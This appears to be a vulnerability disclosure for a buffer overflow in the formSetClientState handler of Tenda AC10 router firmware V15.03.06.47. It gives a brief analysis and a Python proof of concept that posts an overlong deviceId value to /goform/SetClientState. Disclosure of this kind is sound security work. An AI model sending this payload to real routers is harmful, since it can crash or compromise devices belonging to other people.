 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetClientState

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](11.png)

get value from deviceId ,and if deviceId and limitEn are not null, get into line 34, cause buff overflow



## POC
```
url = "http://192.168.1.13/goform/SetClientState"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload, 'limitEn': 1})
``` 

